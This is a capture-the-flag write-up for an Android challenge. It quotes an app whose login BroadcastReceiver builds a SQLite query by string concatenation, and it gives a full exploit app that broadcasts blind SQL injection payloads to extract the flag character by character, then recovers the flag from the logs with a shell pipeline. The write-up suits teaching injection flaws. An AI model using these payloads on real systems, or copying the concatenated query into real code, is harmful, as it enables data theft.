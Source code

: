 # Little Bobby Application (250 pts)

We are given an APK file with the following instruction:

> Find the vulnerability, develop an exploit, and when you're ready, submit your APK to https://bottle-brush-tree.ctfcompetition.com. Can take up to 15 minutes to return the result.

This is a very simple blind SQL Injection, the app receives login request via LoginReceiver (a BroadcastReceiver).

```java
public class LoginReceiver extends BroadcastReceiver {
    public void onReceive(Context context, Intent intent) {
        String username = intent.getStringExtra(UserEntry.COLUMN_NAME_USERNAME);
        String password = intent.getStringExtra(UserEntry.COLUMN_NAME_PASSWORD);
        Log.d("Received", username + ":" + password);
        String msg = new LocalDatabaseHelper(context).checkLogin(username, password);
        Intent outputIntent = new Intent();
        outputIntent.setAction("com.bobbytables.ctf.myapplication_OUTPUTINTENT");
        outputIntent.putExtra(NotificationCompatApi21.CATEGORY_MESSAGE, msg);
        context.sendBroadcast(outputIntent);
    }
}
```

Which in turn calls this method in `LocalDatabaseHelper`:

```java
 public String checkLogin(String username, String password) {
        SQLiteDatabase db = getReadableDatabase();
        Cursor c = db.rawQuery("select password,salt from users where username = \"" + username + "\"", null);
        Log.d("Username", username);
        if (c == null || c.getCount() <= 0) {
            if (c != null) {
                c.close();
            }
            db.close();
            Log.d("Result", "User does not exist");
            return "User does not exist";
        }
        c.moveToFirst();
        String testPassword = c.getString(0);
        String testSalt = c.getString(DATABASE_VERSION);
        c.close();
        db.close();
        if (Utils.calcHash(password + testSalt).equals(testPassword)) {
            Log.d("Result", "Logged in");
            return "Logged in";
        }
        Log.d("Result", "Incorrect password");
        return "Incorrect password";
    }
```

The flag is created with following format:

```
   public long insert(String username, String password) {
        int salt = new Random().nextInt(31337);
        String password_hash = Utils.calcHash(password + new Integer(salt).toString());
        SQLiteDatabase db = getWritableDatabase();
        ContentValues values = new ContentValues();
        values.put(UserEntry.COLUMN_NAME_USERNAME, username);
        values.put(UserEntry.COLUMN_NAME_PASSWORD, password_hash);
        values.put(UserEntry.COLUMN_NAME_FLAG, "ctf{An injection is all you need to get this flag - " + password_hash + "}");
        values.put(UserEntry.COLUMN_NAME_SALT, new Integer(salt).toString());
        long rowId = db.insert(UserEntry.TABLE_NAME, null, values);
        db.close();
        return rowId;
    }
```

So this is a blind injection, we can use something like `" or substr(flag, 53, 1)="a` to check if first hash is `a` (and repeat it as necassary), we will either get `User does not exist` or `Incorrect password` in the log.

And here is the exploit. I am not an Android developer, and wasn't sure do I have to start the app first or not? (just to be sure, I started it first), and do I need to wait? (not sure, so I just wait).

```java
package com.example.yohanes.myapplication;

import android.content.Intent;
import android.support.v7.app.AppCompatActivity;
import android.os.Bundle;
import android.util.Log;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Intent mainIntent = new Intent();
        Log.d("JOJOJO", "sending JOJOJOJO");
        //make sure bobby app is running
        Intent launchIntent = getPackageManager().getLaunchIntentForPackage("bobbytables.ctf.myapplication");
        startActivity(launchIntent);

        Log.d("SLEEP", "SLEEP");
        try {
            Thread.sleep(2000);
        } catch (InterruptedException e) {

        }
        Log.d("SLEEP", "DONE SLEEP");

        String hexchar = "0123456789abcdef";
        for (int i =0; i < 32; i++) {
            for (int j =0; j < 16; j++) {
                mainIntent.setAction("com.bobbytables.ctf.myapplication_INTENT");
                String s = String.format("\" or substr(flag, %d, 1)=\"%c", 53 + i, hexchar.charAt(j));
                mainIntent.putExtra("username", s);
                mainIntent.putExtra("password", "testpass");
                getApplicationContext().sendBroadcast(mainIntent);
            }
        }
    }
}
```


It took a long time until the log came back. From the log file we can do this:

```
$ cat bobby-flag.txt |egrep "Incorrect password" -B 1|grep substr| sort -u| cut -f 3 -d';'| cut -c 1|xargs echo|sed -e 's/ //g'
106b826d7d5ec465b0c5d385a41c6ff6
```

So the flag is:

```
ctf{An injection is all you need to get this flag - 106b826d7d5ec465b0c5d385a41c6ff6}
```
